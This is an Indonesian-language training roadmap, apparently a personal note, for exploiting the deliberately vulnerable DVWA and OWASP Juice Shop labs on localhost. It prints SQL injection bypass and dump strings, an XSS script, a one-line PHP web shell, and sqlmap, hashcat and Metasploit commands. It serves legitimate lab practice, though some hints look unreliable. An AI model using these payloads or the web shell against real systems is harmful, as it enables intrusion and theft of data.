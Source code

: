 ```yaml
---
tags: [hacking]
title: Roadmap DVWA dan OWASP Juice
created: '2025-04-07T05:39:25.931Z'
modified: '2025-04-21T10:09:10.242Z'
---
```


# Roadmap DVWA dan OWASP Juice
Berikut **roadmap eksploitasi DVWA & OWASP Juice Shop** yang menyenangkan dan terstruktur seperti game level-up! 🎮💻

---

### **📌 Level 1: Pemula (Basic Exploitation)**
#### **🎯 Target: DVWA**
1. **SQL Injection (Login Bypass)**
   - **Goal**: Login sebagai admin tanpa password.
   - **Langkah**:
     - Di halaman login, masukkan:
       ```
       Username: admin' -- 
       Password: (kosong)
       ```
     - **Mekanisme**: `--` adalah komentar SQL, mengabaikan password.

2. **XSS (Alert Sederhana)**
   - **Goal**: Munculkan popup "Hacked!" di halaman.
   - **Langkah**:
     - Masukkan script ini di form XSS:
       ```html
       <script>alert("Hacked!")</script>
       ```

3. **File Upload (Shell Sederhana)**
   - **Goal**: Upload file PHP untuk eksekusi command.
   - **Langkah**:
     - Buat file `shell.php` berisi:
       ```php
       <?php system($_GET['cmd']); ?>
       ```
     - Upload, lalu akses: `http://localhost:8080/uploads/shell.php?cmd=id`

---

### **📌 Level 2: Menengah (Advanced Techniques)**
#### **🎯 Target: OWASP Juice Shop**
4. **Admin Account Takeover**
   - **Goal**: Login sebagai admin dengan credential yang dicuri.
   - **Langkah**:
     - Cari email admin di **API** (`http://localhost:3000/rest/user/whoami`).
     - Eksploitasi **JWT Token** di Local Storage.

5. **Database Dump via SQLi**
   - **Goal**: Curi semua data user.
   - **Langkah**:
     - Gunakan input: `' UNION SELECT * FROM Users--` di form pencarian.

6. **RCE via Malicious File**
   - **Goal**: Eksekusi command di server.
   - **Langkah**:
     - Upload file `.mp3` berisi kode JavaScript di komentar ID3.

---

### **📌 Level 3: Expert (Real-World Simulation)**
#### **🎯 Kombinasi DVWA + Juice Shop**
7. **Pivoting Attack**
   - **Goal**: Gunakan akses di DVWA untuk serang Juice Shop.
   - **Langkah**:
     1. Dapatkan shell di DVWA via file upload.
     2. Gunakan `curl` dari DVWA untuk eksploitasi Juice Shop.

8. **Password Cracking**
   - **Goal**: Crack hash password dari database.
   - **Tools**:
     ```bash
     hashcat -m 0 hash.txt rockyou.txt
     ```

9. **CSRF + XSS Chain**
   - **Goal**: Buat admin mengklik link jahat.
   - **Langkah**:
     - Gabungkan XSS di DVWA dengan CSRF di Juice Shop.

---

### **🎮 Challenge Tambahan (Seperti Game Quest)**
| **No** | **Challenge**                | **Hint**                          | **Reward (Konsep Dipelajari)** |
|--------|------------------------------|-----------------------------------|-------------------------------|
| 1      | Hapus semua produk di Juice Shop | Cari endpoint API `/api/Products` | API Security                  |
| 2      | Dapatkan akses `/etc/passwd` di DVWA | Gunakan LFI + Path Traversal     | File System Access            |
| 3      | Deface homepage Juice Shop   | Cari upload vector tersembunyi    | Client-Side Storage           |

---

### **🛠️ Tools Wajib Dicoba**
1. **Burp Suite**: Intercept request di DVWA.
2. **sqlmap**:
   ```bash
   sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1" --cookie="PHPSESSID=yourcookie"
   ```
3. **Metasploit**:
   ```bash
   use exploit/unix/webapp/dvwa_upload_exec
   ```

---

### **📈 Roadmap Visual**
```
Level 1: Basic (DVWA) → Level 2: Advanced (Juice Shop) → Level 3: Combined Attacks
  │                    │                      │
  ├── SQLi            ├── API Abuse         ├── Pivoting
  ├── XSS             ├── JWT Tampering     ├── Privilege Escalation
  └── File Upload     └── RCE Chains        └── Real-World Scenarios
```

---

### **💡 Tips Seru!**
- **Capture The Flag (CTF)**: Buat flag di `/var/www/flag.txt` dan tantang teman untuk mencurinya.
- **Speedrun Challenge**: Selesaikan semua level dalam waktu <30 menit!
- **Log Serangan**: Gunakan `docker logs dvwa` untuk analisis.

---

Dengan roadmap ini, Anda belajar **seperti bermain game** tapi dengan skill hacking nyata! Setiap level selesai = unlock achievement baru 🏆. Selamat bersenang-senang! 🚀

**P.S.**: Untuk solusi tiap challenge, cek:  
- [DVWA Wiki](https://github.com/digininja/DVWA)  
- [Juice Shop Solutions](https://pwning.owasp-juice.shop/)
